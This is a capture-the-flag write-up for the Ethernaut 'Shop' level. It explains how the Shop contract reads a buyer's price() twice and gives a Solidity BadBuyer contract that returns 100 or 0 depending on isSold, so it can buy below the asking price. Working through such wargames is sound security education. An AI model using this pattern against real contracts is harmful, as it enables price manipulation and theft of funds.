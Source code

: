 # [21. Shop](https://ethernaut.openzeppelin.com/level/0x3aCd4766f1769940cA010a907b3C8dEbCe0bd4aB)

We had a similar puzzle back in the Elevator level: we need a function to return different things in a single transaction. The most barebones solution would be to check `gasLeft()` and return different results based on it, but here we have a cleaner solution.

```solidity
function buy() public {
  Buyer _buyer = Buyer(msg.sender);

  // during this call, isSold is false
  if (_buyer.price() >= price && !isSold) {
    // the state will change for isSold
    isSold = true;
    // during this call, isSold is true
    price = _buyer.price();
  }
}
```

As commented above, we can query the value of `isSold` and return a different result based on it. Our attacker contract will look like below, assuming we provide the Shop contract and the Buyer interface:

```solidity
contract BadBuyer is Buyer { 
  Shop target;
  constructor(address _target) {
    target = Shop(_target);
  }

  function price() external view override returns (uint) {
    return target.isSold() ? 0 : 100;
  }

  function pwn() public {
    target.buy();
  }
}
```
